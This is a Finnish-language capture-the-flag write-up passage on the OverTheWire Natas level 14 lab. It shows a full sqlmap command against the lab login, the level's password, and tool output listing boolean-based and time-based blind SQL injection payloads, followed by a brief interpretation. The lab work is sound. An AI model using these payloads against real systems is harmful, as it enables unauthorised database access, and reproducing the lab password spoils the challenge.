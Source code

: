 
**Seuraavaksi** halutaan se SQL injektio haavoittuvuutta ja alttiimista, että automaattisesti poimii datoja ulos sieltä ja ja jos injektio onnistuu

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas14.natas.labs.overthewire.org/index.php" \
  --auth-type Basic \
  --auth-cred "natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" \
  --data "username=admin&password=admin" \
  --batch \
  --level=5 --risk=3
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.5#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:24:53 /2025-05-17/

[12:24:53] [INFO] resuming back-end DBMS 'mysql' 
[12:24:53] [INFO] testing connection to the target URL
[12:24:53] [WARNING] potential permission problems detected ('Access denied')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=admin" OR NOT 9188=9188#&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin" AND (SELECT 2142 FROM (SELECT(SLEEP(5)))vnvd)-- Cgqh&password=admin
---
[12:24:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[12:24:53] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org'
[12:24:53] [WARNING] your sqlmap version is outdated

[*] ending @ 12:24:53 /2025-05-17/

```

Tässä ylemmässä tuloksena ainakin liittyen `access denied`:
- Viesti koskien se ei tarkoita virhettä sqlmappissa - vaan soveluksessa eli natas omassa vastauksessa, joka yrittää estää näkyvyyttä. Koska sqlmpa sai injektiosta irti `boolean` ja `time-based blind` vastauksia, ja ohittanut sen näkyvyyttä. 
